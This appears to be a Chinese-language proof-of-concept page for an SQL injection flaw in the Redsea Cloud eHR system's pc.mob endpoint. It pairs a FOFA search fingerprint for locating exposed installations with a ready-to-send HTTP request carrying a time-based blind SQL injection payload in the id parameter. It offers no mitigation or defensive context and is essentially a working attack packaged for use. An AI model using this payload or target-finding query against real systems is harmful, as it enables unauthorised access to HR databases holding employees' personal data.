 # 红海云eHR系统pc.mob存在sql注入漏洞

红海云eHR系统pc.mob存在sql注入漏洞

## fofa

```yaml
body="/RedseaPlatform/skins/images/favicon.ico"
```

## poc

```java
GET /RedseaPlatform/goApp/pc.mob?id=1%27%20AND%20(SELECT%204802%20FROM%20(SELECT(SLEEP(5)))ndMq)%20AND%20%27NEoX%27=%27NEoX HTTP/1.1
Host: {{Hostname}}
Cookie: JSESSIONID=905D36CF9349B41FBFB0203D2BAA8CCC
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
```

